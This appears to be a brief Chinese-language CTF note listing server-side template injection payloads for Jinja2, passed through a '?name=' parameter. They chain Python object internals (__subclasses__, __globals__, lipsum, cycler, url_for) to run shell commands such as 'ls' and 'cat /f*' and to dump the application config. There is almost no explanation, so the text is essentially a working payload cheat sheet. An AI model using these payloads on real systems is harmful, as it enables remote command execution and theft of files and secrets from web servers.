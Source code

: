 ```handlebars
/?name={{"".__class__.__base__.__subclasses__()[407]("ls",shell=True,stdout=-1).communicate()[0].strip()}}

```

### os._wrap_close

```handlebars
?name={{"".__class__.__base__.__subclasses__()[132]}}
 
/?name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("ls").read()}}
 
/?name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("ls /").read()}}
 
/?name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /f*").read()}}
```

### url_for

```handlebars
{{url_for.__globals__}}
 
{{url_for.__globals__["current.app"].config}}
```

但是这里没有

下面是

推测可能是 twig 和 Jinja2 使用

### lipsum

```handlebars
?name={{lipsum.__globals__}}
 
?name={{lipsum.__globals__['os']}}
 
{{lipsum.__globals__['os'].popen("ls").read()}}
 
{{lipsum.__globals__['os'].popen("cat /f*").read()}}
```

### cycler

```handlebars
?name={{cycler.__init__.__globals__}}
 
?name={{cycler.__init__.__globals__.os.popen("ls /").read()}}
 
?name={{cycler.__init__.__globals__.os.popen("cat /f*").read()}}
```

不写了 太多了
